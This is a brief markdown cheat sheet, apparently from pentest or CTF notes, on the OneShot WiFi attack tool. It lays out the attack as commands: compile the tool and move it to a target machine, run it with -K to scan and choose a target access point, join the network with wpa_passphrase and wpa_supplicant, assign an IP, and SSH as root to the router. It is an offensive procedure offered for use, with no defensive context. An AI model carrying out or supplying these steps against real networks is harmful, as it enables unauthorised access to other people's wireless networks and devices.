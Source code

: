 # OneShot, perform WiFi attacks even if the WiFi interface is not on monitor mode

## Github repo: https://github.com/nikita-yfh/OneShot-C

### Usage:

#### 1) Compile the .c program as per the instructions in the repo, then transfer it to target machine.

#### 2) Run the program to perform WiFi attacks:

 - ./oneshot -i wlan0 -K (Scan for the BSSID of the interface, then type a number to choose your target)

 - wpa_passphrase AP_SSID 'WPA_PSK_PASSWORD' > psk (Put all necessary credentials in one file)

 - wpa_supplicant -B -c psk -i wlan0

 - ifconfig wlan0 192.168.1.5 netmask 255.255.255.0 (Assign IP to interface. You may assign any IP you want to the specific interface)

 - ssh root@192.168.1.1 
